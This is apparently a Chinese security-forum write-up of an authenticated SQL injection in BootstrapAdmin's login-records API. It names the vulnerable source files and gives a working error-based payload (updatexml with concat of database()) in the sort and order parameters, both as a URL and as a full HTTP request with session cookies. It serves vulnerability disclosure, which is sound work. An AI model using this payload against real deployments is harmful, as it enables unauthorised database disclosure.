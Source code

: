 ### 漏洞定位

`BootstrapAdmin\src\mvc\admin\Bootstrap.DataAccess\DBLog.cs`  
在SQL语句拼接时`Sort`和`Order`没有使用 Linq 进行转义

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-f0bfb607ddd76e9af24b07ce0ebd1a4a096da244.png)

【后台】获得登录用户的分页数据接口存在SQL注入
------------------------

权限：后台普通用户权限

### 漏洞利用

`http://localhost:50852/api/Login`  
`http://localhost:50852/api/Login?&offset=0&limit=20&startTime=2023-05-06&endTime=&loginIp=&order=concat(0x7e,database(),0x7e),3)&sort=updatexml(1,`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-8d82182ebd363807cd91d4c72381e105bfb7d276.png)

请求包：

```python
GET /api/Login?&offset=0&limit=20&startTime=2023-05-06&endTime=&loginIp=&order=concat(0x7e,database(),0x7e),3)&sort=updatexml(1, HTTP/1.1
Host: localhost:50852
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:50852/Admin/Logins
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: .AspNetCore.Antiforgery.a2HlFfgw_P8=CfDJ8Gs8oXs1rxRKjEnWjDIDxNYIk8qTrVAchQMdNQDsqE0fBboelKrRDrSlcNGeSNFI1jNSivWc5b5t8tkI1SES8xumGS6HdMyCcTFdEqocP7y74P26iG_iKW6RRYrazzhQNkcvDfYzcxAzdbm-f5FqO88; .AspNetCore.Cookies=CfDJ8Gs8oXs1rxRKjEnWjDIDxNaE3CXKRjutQdTU9MI2xO1nRk7yd-9PgK41JPtnvxNoybJwZclKPosGkyWisjmmpaB2xJkLw04jWnB1ZpvrHYBNhbm02wR62IXpOdYVnmBRgSs7UrKRDnk-fAR9CRWNiYrLr5Dq9irg-R7uxSbuwu1A-eKvcQUsLvd_nvlRmExl_ay-3wo0v1rvUe1pwpbhyzzda5HLQbh0XOMmor5h0q66o9vFYO5dgBUGqYxpBidWCv0PoKzqGQeA_8dxsBolEctWPrQEKakod3mJ1HrIKQR1
Connection: close

```

### 漏洞定位

`BootstrapAdmin\src\mvc\admin\Bootstrap.DataAccess\LoginUser.cs`

